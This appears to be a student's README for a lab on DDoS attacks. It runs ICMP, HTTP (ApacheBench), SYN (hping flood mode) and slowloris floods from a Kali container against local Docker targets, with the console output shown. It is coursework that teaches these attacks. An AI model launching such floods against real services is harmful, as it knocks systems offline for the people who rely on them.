 # HSA13_hw16_ddos_attacks

## ICMP flood

![изображение](https://github.com/user-attachments/assets/86e6b1ce-98c3-45c5-aaef-9728688fa7b2)


## http flood

PS E:\ai\ai_anppr\HSA13_hw16_ddos_attacks> docker exec -it kali sh
chmod +x /workspace/scripts/http_flood.sh
/workspace/scripts/http_flood.sh
This is ApacheBench, Version 2.3 <$Revision: 1923142 $>
Copyright 1996 Adam Twiss, Zeus Technology Ltd, http://www.zeustech.net/
Licensed to The Apache Software Foundation, http://www.apache.org/

Benchmarking web (be patient)
apr_socket_recv: Connection reset by peer (104)
Total of 213602 requests completed

![изображение](https://github.com/user-attachments/assets/f48933ee-93ca-4124-9b19-9ee8f0b514ca)



## syn flood

PS E:\ai\ai_anppr\HSA13_hw16_ddos_attacks> docker exec -it kali sh
chmod +x /workspace/scripts/syn_flood.sh
/workspace/scripts/syn_flood.sh
HPING 172.26.0.2 (eth0 172.26.0.2): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown

![изображение](https://github.com/user-attachments/assets/aff704d2-beb1-4aeb-afe6-22e0a087df42)

## slowloris


PS E:\ai\ai_anppr\HSA13_hw16_ddos_attacks> docker exec -it kali sh
chmod +x /workspace/scripts/slowloris.sh
/workspace/scripts/slowloris.sh
[02-03-2025 15:38:06] Attacking 172.18.0.3 with 100000 sockets.
[02-03-2025 15:38:06] Creating sockets...
[02-03-2025 15:38:10] Sending keep-alive headers...
[02-03-2025 15:38:10] Socket count: 0
[02-03-2025 15:38:10] Creating 100000 new sockets...
[02-03-2025 15:38:29] Sending keep-alive headers...
[02-03-2025 15:38:29] Socket count: 0
[02-03-2025 15:38:29] Creating 100000 new sockets...
[02-03-2025 15:38:48] Sending keep-alive headers...
[02-03-2025 15:38:48] Socket count: 0
[02-03-2025 15:38:48] Creating 100000 new sockets...
[02-03-2025 15:39:07] Sending keep-alive headers...
[02-03-2025 15:39:07] Socket count: 0
[02-03-2025 15:39:07] Creating 100000 new sockets...
[02-03-2025 15:39:26] Sending keep-alive headers...
[02-03-2025 15:39:26] Socket count: 0
[02-03-2025 15:39:26] Creating 100000 new sockets...
[02-03-2025 15:39:45] Sending keep-alive headers...


![изображение](https://github.com/user-attachments/assets/79a25c25-8d3b-4c7e-8d41-f5af3913fb4a)

